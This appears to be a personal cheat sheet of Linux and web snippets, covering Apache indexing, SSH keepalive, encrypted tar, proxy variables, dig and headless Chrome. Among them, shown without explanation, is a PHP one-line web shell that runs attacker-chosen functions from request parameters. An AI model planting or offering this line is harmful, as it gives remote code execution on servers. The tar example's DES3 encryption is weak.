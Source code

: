 # fswatch
`go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# ($_=@$_GET[2]).@$_($_POST[1])


# ssh connection alive
## server
```

	TCPKeepAlive yes #表示TCP保持连接不断开
	ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
	ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```

	Host * #表示需要启用该规则的服务端（域名或ip）
		ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
		ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```

	tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
	#dd if=tar.tar.gz |openssl tar -d -k youPassword |tar zxf -
	openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```

		export https_proxy=10.0.0.52:8080
		export https_proxy=user:pass@192.158.8.8:8080
		export https_proxy=socks://10.0.0.52:1080
		export https_proxy=socks4://10.0.0.52:1080
		export https_proxy=socks5://10.0.0.52:1080
		export ftp_proxy=socks5://10.0.0.52:1080
		export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`

# headless chrome
`chrome --headless --disable-gpu --print-to-pdf https://www.baidu.com`
`chrome --headless --disable-gpu --dump-dom https://www.baidu.com`
`chrome --headless --disable-gpu --screenshot --window-size=1280,1696 https://www.baidu.com`
